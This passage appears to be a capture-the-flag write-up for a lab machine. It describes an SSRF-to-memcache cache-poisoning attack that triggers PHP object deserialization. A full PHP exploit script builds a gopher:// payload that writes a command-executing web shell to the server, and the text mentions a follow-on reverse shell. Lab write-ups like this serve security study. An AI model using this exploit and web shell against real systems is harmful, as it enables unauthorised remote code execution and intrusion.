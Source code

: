 ## Initial shell

In order to get our initials shell we have to do the following steps:

First we are going to exploit a php-object-injection via cache-poisoning on memcache. Once we injected our php-object, we can trigger the deserialization by letting the server load from cache. Upon deserialization we write our data (php web-shell) to the server. Now we can access the web-shell and get a proper reverse-shell.

### Cache-poisoning and deserialization exploitation

Let us try to write data to memcache. For this we can use the command `_set key flags expire_time length value`. Let us try to overwrite the default cache value with our php-object. All we have to do now, is to complete the script and add url-encoding to ensure that the payload is interpreted correctly.

Full exploit below:

```php
<?php

class TemplateHelper
{

    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
    	$this->init($file, $data);
    }

    public function __wakeup()
    {
    	$this->init($this->file, $this->data);
    }

    private function init(string $file, string $data)
    {    	
        $this->file = $file;
        $this->data = $data;
        //__DIR__ = "wp-content/themes/twentytwenty" according to README.md
        //file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
	}	
}

// Generate php-payload
$object = serialize(new TemplateHelper("chronos.php","<?php system(\$_REQUEST[\"cmd\"]);?>"));

// Generate memcache-key for our host
$name = md5("http://10.10.14.2/chronos.xml"); //Cache some url (FILE HAS TO EXIST ON OUR SERVER)
$type = "spc"; //Type (const)
$key = md5("$name:$type"); //Memcache-Key

// Final memcache payload
$payload = " xct_" . $key . " 0 100 " . strlen($object) . "\r\n" . $object . "\r\n";

// Url-encode payload (double)
$encoded = str_replace("+","%20",urlencode($payload));

// SSRF-url to access memcache
$url = "http://blog.travel.htb/awesome-rss/custom_feed_url=gopher://0:11211/_set";

// Print final payload
echo $url . $encoded . "\n";
```